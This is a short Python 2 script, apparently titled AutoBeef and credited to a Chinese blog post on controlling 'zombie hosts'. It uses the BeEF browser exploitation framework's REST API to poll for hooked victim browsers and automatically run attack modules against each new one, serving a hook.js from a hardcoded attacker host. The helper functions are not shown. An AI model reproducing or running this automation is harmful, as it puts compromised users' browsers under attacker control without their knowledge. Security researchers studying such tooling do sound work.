 ```


def timeRun(interval,host):
    authkey = getauthkey(host)
    print "[+] AutoBeef is running...."
    print "[+] BeEF KEY is : "+ authkey
    print "[+] Base BeEF API URL: "+ host + "api/"
    print "[+] Hook URL   : " + host + "hook.js"
    print "[+] Hook Demo  : " + host + "demos/basic.html"
    while True:
        try:
            getHookedBrowsersSession(host, authkey)
            for x in hostdict:
                if hostdict[x] not in hostlist:
                    hostlist.append(hostdict[x])
                    autoRunModules(host,hostdict[x],authkey)
            time.sleep(interval)
        except Exception, e:
            print e

if __name__ == '__main__':
    beefhost = "http://192.168.137.134:3000/"
    timeRun(3,beefhost)
```
脚本出处：
https://www.cnblogs.com/ssooking/p/6959239.html#_label0【利用BeEF REST API自动化控制僵尸主机】